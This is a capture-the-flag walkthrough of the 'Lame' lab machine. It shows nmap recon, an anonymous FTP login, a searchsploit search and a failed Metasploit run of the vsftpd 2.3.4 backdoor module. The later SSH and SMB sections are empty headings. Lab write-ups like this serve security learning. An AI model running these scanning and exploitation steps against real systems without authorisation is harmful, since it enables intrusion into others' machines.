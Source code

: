 # Lame by ch4p
![alt text](https://i.imgur.com/mLVb0NZ.png)

## Initial Recon
The initial nmap scan of the box shows that there are three services for us to investigate - ftp, ssh and smb
```sh
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## FTP
The ftp service on this box has anonymous login enabled which allows us to connect without authenticating
```sh
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```
Unfortunately there are no files on the ftp server for us to look at, we could try to see if there are any exploits for the version of vsftpd the service uses
```sh
root@kali:~# searchsploit vsftpd 2
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption              | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)              | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)              | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                            | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                      | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
We can try the [vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) exploit and see if it works
```sh
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
In this case, it doesn't.

## SSH

## SMB

## Exploiting SMB

## Alternate Route - distccd 
